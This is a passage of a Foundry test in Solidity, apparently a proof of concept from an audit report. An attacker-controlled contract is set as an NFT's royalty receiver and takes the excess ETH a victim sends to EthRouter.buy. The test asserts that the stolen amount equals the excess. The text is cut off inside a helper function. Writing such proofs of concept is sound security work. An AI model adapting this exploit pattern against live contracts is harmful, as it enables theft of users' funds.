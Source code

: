 ```solidity
        vm.startPrank(attacker);
        maliciousRoyaltyReceiver = new MaliciousRoyaltyReceiver(
            address(nft),
            address(ethRouter)
        );

        // Set the attacker contract as the royalty receiver for NFT#tokenId.
        // Note that creators can set the royalty receiver, but can also simply mint NFTs
        // from contracts that could have malicious fallback() and wouldn't need to use
        // setCreatorRedirect since the contract that minted the nft will alredy be royalty
        // recipient.
        IPixels(address(nft)).setCreatorRedirect(
            address(maliciousRoyaltyReceiver)
        );
        vm.stopPrank();

        // Deal ETH.
        _fundEth();
    }

    function test_RoyaltyReceiverStealExcessEth() public {
        _logState(" Before exploit");

        // Get needed data for buy and logs.
        (EthRouter.Buy[] memory buys, uint256 royalty) = _getBuysStructArray();

        // Victim balance before buy order.
        uint256 victimBalanceBefore = victim.balance;

        // Purchase amount = baseTokenAmout + royalty -> royalty already included in setup
        uint256 purchaseAmount = buys[0].baseTokenAmount;

        // Expected balance of victim after purchase.
        uint256 expectedVictimBalanceAfter = victimBalanceBefore -
            purchaseAmount;

        // Execute the buy from the victim account.
        vm.prank(victim);
        ethRouter.buy{value: buys[0].baseTokenAmount + EXCESS}(buys, 0, false);

        // Calculate the amount of stolen excess ETH.
        uint256 excessAmountLost = expectedVictimBalanceAfter - victim.balance;

        _logState(" After exploit");
        _logExtraData(buys[0].baseTokenAmount, royalty, excessAmountLost);

        // Test case that excess_amount_lost is not 0 and is equal to the excess in ethRouter.buy()
        assertEq(excessAmountLost, EXCESS, "Excess eth is not sent");
    }

    // ======================================= Helpers ======================================= //

    /**
     * @return buys The array expected from EthRouter.buy to execute the buy operation.
     * @return royalty The calculated royalty amount that will be paid to the receiver.
     */
    function _getBuysStructArray()
        internal
        view
        returns (EthRouter.Buy[] memory buys, uint256 royalty)
    {
        // Add nft id.
        uint256[] memory tokenIds = new uint256[](1);
```